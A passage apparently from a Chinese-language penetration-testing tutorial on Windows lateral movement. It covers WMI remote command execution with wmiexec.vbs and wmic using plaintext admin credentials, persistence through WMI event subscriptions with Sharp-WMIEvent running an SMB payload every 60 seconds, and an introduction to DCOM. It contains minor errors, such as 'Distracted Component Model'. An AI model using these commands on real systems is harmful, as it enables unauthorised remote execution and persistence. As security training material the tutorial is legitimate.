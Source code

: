 ```bash
cscript //nologo wmiexec.vbs /shell 192.168.1.131 administrator 123qwe@
```

#### [自带 WMIC 明文传递 无回显](#toc_wmic)

```bash
wmic /node:192.168.1.131 /user:administrator /password:123qwe@ process call create "cmd.exe /c ipconfig >C:\1.txt"
```

### [WMI 事件订阅的利用](#toc_wmi_1)

WMI 提供了强大的事件处理系统，几乎可以用于操作系统上发生的任何事件做出相应。

当创建某进程时，通过 WMI 事件订阅器来执行预先设置的脚本。  
其中触发事件的具体条件被称为“**事件过滤器**”（Event Filter），如用户登录、新进程创建等；对指定事件发生做出相应的称为“**事件消费者**”（Event Consumer），包括一系列具体的操作，如运行脚本、记录日志、发送邮件等。  
在部署事件订阅时，需要分别构建 Filter 和 Consumer 两部分，并将两者绑定在一起。

所有的事件过滤器都被存储在一个**Root\\subscription:\_\_EventFiilter**对象的实例，可以通过创建**\_\_EventFilter 对象**实例来部署事件过滤器。事件消费者是基于**ROOT\\subscription:\_\_EventConsumer 系统类**派生来的类。

系统提供了常用的标准事件消费类

```bash
LogFileEventConsumer    # 将事件数据写入指定的日志文件 
ActiveScriptEventConsumer  # 执行嵌入的 VBScript 或 JavaScript 
NTEventLogEventConsumer      # 创建一个包含事件数据的事件日志条目 
SMTPEventConsumer            # 发送一封包含事件数据的电子邮件 
CommandLineEventConsumer     # 执行指定的系统命令
```

**Sharp-WMIEvent**

[https://github.com/wh0Nsq/Sharp-WMIEvent](https://github.com/wh0Nsq/Sharp-WMIEvent)

在远程主机上部署一个随即命名的永久事件订阅，并每隔 60s 执行以此 SMB 共享中的攻击载荷

```bash
Sharp-WMIEvent -Trigger Interval -IntervalPeriod 60 -ComputerName 192.168.1.131 -Domain uf9n1x.com -Username Administrator -Password 123qwe@
```

# [DCOM 的利用](#toc_dcom)

COM（Component Object Model，组件对象模型）是微软的一套软件组成的二进制接口标准，使得跨编程语言的进程间通信、动态对象创建成为可能。COM 指定了一个对象模型和编程要求，使 COM 对象能够与其他对象交互。这些对象可以在单个进程中，也可以在其它进程中，甚至可以在远程计算机中。在 Windows 中，每个 COM 对象都由唯一的 128 位的二进制标识符标识，即 GUID。

DCOM（Distracted Component Model，分布式组件对象模型）是基于 COM 的一系列概念和程序接口，支持不同机器上的组件间通信。利用 DCOM，客户端程序对象可以请求来自网络中另一台计算机上的服务器程序对象。

部分 DCOM 组件公开的接口中可能包含不安全的方法。执行以下命令，可以列出计算机上所有的 DCOM 程序组件

```bash
Get-CimInstance Win32_DCOMApplication
```
